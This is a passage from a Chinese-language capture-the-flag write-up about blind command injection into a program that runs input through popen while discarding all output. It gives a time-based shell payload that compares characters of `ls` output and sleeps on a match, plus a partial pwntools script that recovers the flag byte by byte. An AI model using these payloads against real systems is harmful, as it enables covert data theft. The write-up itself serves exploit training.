 ```c
  dup2(fd, 0);
  dup2(fd, 1);
  dup2(fd, 2);
  return close(fd);
}

int restore()
{
  dup2(saved_stdin, 0);
  dup2(saved_stdout, 1);
  dup2(saved_stderr, 2);
  close(saved_stdin);
  close(saved_stdout);
  return close(saved_stderr);
}
```
::

可以看到程序接受不超过 $80$ 字节的输入并直接通过 `popen` 执行，但是标准输入、输出、错误流均被提前重定向到 `/dev/null`，没有任何回显。

查阅 [`pclose` 文档](https://pubs.opengroup.org/onlinepubs/009696699/functions/pclose.html)可以发现：

> The `pclose()` function shall close a stream that was opened by `popen()`, **wait for the command to terminate**, and return the termination status of the process that was running the command language interpreter.

`pclose` 会等待程序终止，因此考虑**延时注入**。

构造 payload 如下：

```sh
[ $(ls|xargs|cut -b1) \> 'A' ] && sleep 1
    ^^             ^      ^             ^
```

其效果是先执行 `ls`，并将结果的第一个字符与 `'A'` 比较，如果大于 `'A'` 则延时 $1$ 秒。通过测量程序延时便可得到第一个字节与 `'A'` 的大小关系，按照这个思路逐字节二分爆破即可。

flag 文件名很长，`cat` 时使用通配符即可。

::fold{title="Exploit" success expand}
```py
from pwn import *

context.log_level = "error"
r = None


def execute(cmd, pos, char):
    if char in "\\'":
        char = "\\" + char

    # 延时时间根据实际情况调整
    payload = fr"[ $({cmd}|xargs|cut -b{pos}) \> '{char}' ] && sleep .3".encode()
    assert len(payload) < 80

    r.sendline(payload)

    start = time.time()
    r.recvuntil(b"$ ")
    end = time.time()

    # print(end - start)
    return end - start > .32


def binsearch(cmd):
    pos = 1
```